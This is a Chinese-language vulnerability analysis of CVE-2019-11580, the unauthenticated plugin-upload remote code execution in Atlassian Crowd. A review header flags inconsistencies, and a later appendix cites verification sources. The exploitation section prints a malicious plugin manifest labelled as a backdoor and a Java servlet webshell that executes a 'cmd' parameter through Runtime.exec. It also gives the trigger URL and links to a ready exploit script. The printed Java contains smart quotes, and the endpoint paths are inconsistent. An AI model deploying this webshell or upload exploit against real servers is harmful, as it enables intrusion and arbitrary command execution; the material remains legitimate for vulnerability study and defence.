




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Lab3.4.3 only; no affected/fixed ranges; exposed pdkinstall plugin route

代码与实验材料：Filter and servlet code, manifest and helper repo; upload request only screenshot; smart quotes make Java invalid; missing package/import/build manifest

来源证据范围：Atlassian Bitbucket plugin code, jas502n repo and Anquanke article cited

- **适用与权限边界（1）**：Root cause misframed as malware inspection rather than unauthorized plugin installation/endpoint access；依据：根本原因...未全面测试外来插件的安全性。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：Endpoint/field inconsistencies and copy artifacts；依据：startsWith(file) versus prose file_; /exp versus /plugins/servlet/exp and manifest description /cdl。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Upgrade latest is not actionable fixed-release guidance。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CVE-2019-11580 Atlassian Crowd RCE

## 简介

攻击者可利用代码执行漏洞，在服务端执行任意代码，实现系统信息窃取等目标，从而造成巨大危害。Atlassian Crowd是一款企业身份管理应用，具有身份管理和单点登录功能，且通过插件进一步扩展了功能。Atlassian Crowd的插件pdkinstall中存在安全缺陷，易导致攻击者上传安装恶意插件进而达到远程代码执行的目的。

##  代码分析

本节主要分析Atlassian Crowd的pdkinstall插件信息。输入命令【git clone https://bitbucket.org/atlassian/pdkinstall-plugin】 下载插件源码，使用IDEA打开，如下图。

[](.resource/Untitled/media/t0159a7b911809423b4.png)

首先，分析插件描述文件【atlassian-plugin.xml】。此文件采用XML格式数据重点说明插件模块与servlet的关联信息，内容如下。

[](.resource/Untitled/media/t01ba1499cc1fbdc115.png)

图中标红区域说明，访问/admin/uploadplugin.action会调用servlet功能类com.atlassian.pdkinstall.PdkInstallFilter，完成新插件的上传、检测和安装过程。因此锁定此类为安全缺陷入口。

接着，分析其源码。在源码中，doFilter()函数是核心函数，涉及关键插件逻辑控制语句，因此我们分两部分来分析该函数源码。第1部分的源码及解析如下。

```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException,
ServletException {
    HttpServletRequest req = (HttpServletRequest) servletRequest;
    HttpServletResponse res = (HttpServletResponse) servletResponse;
    // 不是post请求，就报错
    if (!req.getMethod().equalsIgnoreCase(“post”)) {
        res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Requires post”);
        return;
    }
    // 检查是否是multipart格式数据。
    // 数据包中，Content-Type用于表示资源的MIME类型，multipart/mixed类型主要用于传输有效的（二进制数据等）数据文件。
    // Check that we have a file upload request
    File tmp = null;
    boolean isMultipart = ServletFileUpload.isMultipartContent(req);
    if (isMultipart) {
        // 直接从数据包中提取jar文件继续安装插件
        tmp = extractJar(req, res, tmp);
    } else {
        // 从数据包中组合数据构建、安装插件
        tmp = buildJarFromFiles(req);
    }
```

此方法首先判别准入POST请求，随后检查数据包的Conten-Type类型是否是multipart：如是，则直接从数据包中提取jar文件插件；否则，从数据包中构建安装jar文件插件。

由于此函数代码后续跟进tmp变量开展判别任务，因此我们有必要深入相关函数分析返回的tmp变量值信息。进入extractJar(）函数分析jar文件插件提取过程，如下；buildJarFromFiles()函数分析过程类似，在此不赘述。

```
private File extractJar(HttpServletRequest req, HttpServletResponse res, File tmp) throws IOException {
    // Create a new file upload handler
    ServletFileUpload upload = new ServletFileUpload(factory);

    // Parse the request
    try {
        // 新建的文件上传实例会解析请求数据包，从而解析multipart/mixed格式的插件
        List < FileItem > items = upload.parseRequest(req);
        for (FileItem item: items) {
            // 如果解析所得的数据字段以“file”开头且不属于表格字段，则判定为插件信息，据此创建插件，插件在服务端的索引位置保存在tmp变量中
            if (item.getFieldName().startsWith(“file“) && !item.isFormField()) {
                tmp = File.createTempFile(“plugindev - “, item.getName());
                tmp.renameTo(new File(tmp.getParentFile(), item.getName()));
                item.write(tmp);
            }
        }
    } catch(FileUploadException e) {
        log.warn(e, e);
        res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Unable to process file upload”);
    } catch(Exception e) {
        log.warn(e, e);
        res.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, “Unable to process file upload”);
    }
    // 返回插件索引位置信息
    return tmp;
}
```

分析可知，如果数据包中存在以 ”file_” 开头且非表单字段的文件，则据此创建插件，并将插件的服务端位置索引保存至tmp变量中；否则，保持tmp变量为 “null”。最终返回tmp变量。

接着继续分析doFilter() 函数的第2部分，如下。

```
// tmp不为空，确定是插件上传安装请求且插件已被探测并上传，开始安装此插件，否则响应信息“Missing plugin file”
if (tmp != null) {
    List < String > errors = new ArrayList < String > ();
    try {
        // 安装插件
        errors.addAll(pluginInstaller.install(tmp));
    } catch(Exception ex) {
        log.error(ex);
        errors.add(ex.getMessage());
    }

    tmp.delete();

    if (errors.isEmpty()) {
        // 安装成功，响应“Installed plugin”+“具体路径”
        res.setStatus(HttpServletResponse.SC_OK);
        servletResponse.setContentType(“text / plain”);
        servletResponse.getWriter().println(“Installed plugin“ + tmp.getPath());
    } else {
        // 安装失败，响应“Unable to install plugin:”
        res.setStatus(HttpServletResponse.SC_BAD_REQUEST);
        servletResponse.setContentType(“text / plain”);
        servletResponse.getWriter().println(“Unable to install plugin: ”);
        for (String err: errors) {
            servletResponse.getWriter().println(“\t - “ + err);
        }
    }
    servletResponse.getWriter().close();
    return;
}
res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Missing plugin file”);
}
```

分析可知，如tmp变量不为空，则开始安装插件，且安装成功返回响应信息 “Installed plugin” +“具体路径”，安装失败返回响应信息 ”Unable to install plugin:”；如 tmp变量为空，则返回响应信息 “Missing plugin file”。

至此，明确Atlassian Crowd的插件管理流程后可知，并不存在明确的插件功能检测机制，因此插件易被利用。

 

## 漏洞利用

首先，编写一个恶意插件，其 “atlassian-plugin.xml” 信息如下。

```
<atlassian-plugin key="com.cdl.shell.exp" name="Atlassian Manager" plugins-version="2" class="com.cdl.shell.exp">
<plugin-info>
<param name="atlassian-data-center-compatible">true</param>
<description>Atlassian Management plugin</description>
<version>1.0.0</version>
</plugin-info>

<servlet name="exploit" key="exploit" class="com.cdl.shell.exp">
<url-pattern>/exp</url-pattern>
<description>backdoor at /plugins/servlet/cdl</description>
</servlet>

</atlassian-plugin>
```

分析可知，插件上传成功后，用户只需访问 /exp即可使用恶意插件servlet类com.cdl.shell.exp的功能。

其次，分析com.cdl.shell.exp源码，如下：

```
public class exp extends javax.servlet.http.HttpServlet {

    public void doGet(HttpServletRequest req, HttpServletResponse res) {
        try {
            // 接收cmd参数信息
            String cmd = String.valueOf(req.getParameter(“cmd”));
            String output = ””;
            try {
                if (!cmd.equals(“”)) {
                    // 执行cmd参数命令
                    Process p = Runtime.getRuntime().exec(cmd);
                    InputStream out = p.getInputStream();
                    InputStream err = p.getErrorStream();
                    int c = ’\0’;
                    while ((c = out.read()) != -1) {
                        res.getWriter().write((char) c);
                    }
                }
            } catch(Exception ex) {
                output += ”\n” + ex.toString();
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

从中可知，此exp的功能是读取并执行 cmd参数值。

最后，编辑请求数据包以便上传恶意插件，接着在浏览器输入【http://localhost:8095/crowd/plugins/servlet/exp?cmd=whoami】即可执行 “whoami” 命令。观察服务端的响应信息（如下），可知漏洞利用成功。

[](.resource/Untitled/media/t01aba88dc1a98c2b0b.png)

### 复现

第一步，下载【atlassian-crowd-3.4.3】。配置启动后，访问【http://localhost:8095/crowd】， 最终出现如下界面说明crowd服务搭建成功。

[](.resource/Untitled/media/t01611e184d1dc36270.png)

第二步，访问链接【https://github.com/jas502n/CVE-2019-11580】 下载恶意插件等资料，随后执行【CVE-2019-11580.py】脚本，出现如下界面说明插件上传、安装成功。

[](.resource/Untitled/media/t017d74ab1b31da48bc.png)

第三步，在浏览器访问链接【http://localhost:8095/crowd/plugins/servlet/exp?cmd=whoami】， 如出现如下界面，说明成功触发代码执行漏洞。

[](.resource/Untitled/media/t013055c1f5662b39a0.png)

 

## 补丁

升级至最新版。

 

## 总结

通过分析Atlassian Crowd RCE，作者认为此漏洞的根本原因在于插件管理系统未全面测试外来插件的安全性；在相关漏洞研究学习中，我们应当提升Atlassian Crowd动态调试能力，插件分析开发能力，以及Java 和Python的开发能力。

 

## 参考文献

1、 jas502n/CVE-2019-11580: CVE-2019-11580 Atlassian Crowd and Crowd Data Center RCE
https://github.com/jas502n/CVE-2019-11580

2、 CVE-2019-11580：Atlassian Crowd RCE漏洞分析 – 安全客，安全资讯平台
https://www.anquanke.com/post/id/182118#h2-5

## 公开验证资料补证（2026-10-03）

固定 Nuclei 主文件的公开验证是上传测试插件后访问 /plugins/servlet/exp，并检查响应中的 CVE-2019-11580。测试插件的描述 XML、Java 源码和嵌入的 582 字节 class 已以数据形式静态核对：构造方法只调用 HttpServlet 构造函数，doGet 通过 response writer 写出该固定标记。这提供了具体的未授权插件部署及服务端处理结果，而不是把上传 HTTP 200 当成任意代码执行。

嵌入 class 的文件头版本为 `55.0`（major 55），因此这份二进制要求支持 Java 11 class 格式的 JVM；较旧 Java 运行环境不能直接加载它。公开 Java 源码可读不代表这份已编译插件在所有历史 Crowd/JVM 组合上均可运行。该对应关系见 [Java 虚拟机规范的 class 版本表](https://docs.oracle.com/javase/specs/jvms/se22/html/jvms-4.html#jvms-4.1)。

固定模板把 3.4.3 写入修复建议，但已读 CNA 记录给出的该分支修复节点是 3.4.4。该模板说法不能覆盖 CNA 边界，上文以 3.4.3 为实验版本也不能自动证明其已修复。完整分支矩阵应按原始公告核对；普通插件上传权限和本漏洞绕过不得混同。

插件安装会改变应用状态并留下可访问的 servlet，不能称为只读检测。既有 Java 代码中的智能引号未被改写；新增来源给出独立可追溯的验证路径。本次只在内存中解码嵌入数据用于静态审阅，没有执行 JAR、class、Java 或 HTTP 请求。

- 已全文审阅的固定技术主文件：https://github.com/projectdiscovery/nuclei-templates/blob/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2019/CVE-2019-11580.yaml
- 已全文审阅的固定技术主文件：https://github.com/rapid7/metasploit-framework/blob/5e598d5233bebecef2a44904a286769d83d31d12/modules/exploits/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce.rb
- 已读描述及引用的 CNA 记录：https://github.com/CVEProject/cvelistV5/blob/76db341685347c82b67f7ce70b1a286e94270b43/cves/2019/11xxx/CVE-2019-11580.json
